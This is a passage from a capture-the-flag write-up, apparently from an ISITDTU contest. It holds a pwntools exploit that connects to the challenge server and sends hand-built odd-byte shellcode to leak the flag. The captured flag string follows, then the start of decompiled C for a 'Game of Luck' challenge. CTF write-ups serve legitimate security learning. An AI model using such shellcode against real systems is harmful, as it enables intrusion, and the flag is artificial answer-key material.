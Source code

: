 I searched and found a way to generate odd byte shellcode via `r11d` register and was able to solve it by calculating the location of flag global variable via register and then calling `write` syscall.

### Exploit
```py
from pwn import *

# p = process('./challenge')
p =remote('152.69.210.130', 3002)
context.arch = 'amd64'
context.terminal   = ['tmux', 'splitw', '-h']
context.log_level = 'debug'

# sleep(1)

sc = '''
mov r11d, 0x13091309
shr r11, 15
shr r11, 1
sub r13, r11
mov r11d, 0xfffffff1
sub r11d, 0xffffbfb1
add r13, r11
push r13
mov r11d, 0xfffffff1
sub r11d, 0xffffd339
sub r13, r11
pop rdi
call r13
'''
sc = asm(sc)

# gdb.attach(p, '''
# brva 0x13fd 
# ''')

p.sendline(sc)
p.interactive()

```
{{< admonition note "flag" true >}}
`ISITDTU{95acf3a6b3e1afc243fbad70fbd60a6be00541c62c6d651d1c10179b41113bda}`
{{< /admonition >}}

## Game of Luck
### Analysis
```c
void __noreturn main_logic()
{
  unsigned int v0; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  while ( 1 )
  {
    while ( 1 )
    {
      printf("Score: %u points\n", my_point);
      puts("0. Lucky Number\n1. Play\n2. Exit");
      __isoc99_scanf("%1u", &v0);
      while ( getchar() != '\n' )
        ;
```